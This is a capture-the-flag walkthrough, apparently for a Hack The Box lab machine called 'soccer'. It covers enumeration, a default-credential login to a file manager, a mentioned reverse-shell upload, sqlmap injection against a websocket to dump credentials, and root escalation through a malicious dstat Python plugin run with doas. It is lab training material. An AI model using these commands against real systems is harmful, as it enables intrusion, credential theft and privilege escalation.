




## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 using nginx and an unknown service running on port 9091  



## Web Fuzzing

we look for directories not shown on the main page using ffuf 



we find a tiny file manager that we accessed using the default credentials 
Username:**admin**&Password:**admin@123**

Navigating the Website we found that we have write access on the uploads directory on which we could upload php code and get our reverse shell



we find that we dont have permission to view user flag however digging deeper we find a vhost in the nginx config files

![[vhost.png]]
## Sql Injection

browsing the newly found vhost we found a parameter that is injectable


regularly we are unable to access the outcoime of our blind sqli Fortunately sqlmap allows us to directly access it on websocket service on port 9091.

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

![[db_Sqli.png]]

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D
soccer_db --dump --batch
```

![[cred_sqli.png]]

## User Flag

we use the found credentials to ssh into our machine successfully
![[user_flag.png]]

## Privilege Escalation

We check if we can use any **SUID** bins as root using the following command
```
find / -type f -perm -4000 2>/dev/null
```

![[bins.png]]
searching for doas we find that the config file is in  ```/usr/local/etc/doas.conf``` 
revealing that we can run dstat as root

![[dstat.png]]

the dstat man page reveals that we can use it to run external python plugins as root

```
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

when we execute this command we create a python script that executes a shell we then run doas using 
```
doas /usr/bin/dstat --list
```
to get a shell as root
![[root.png]]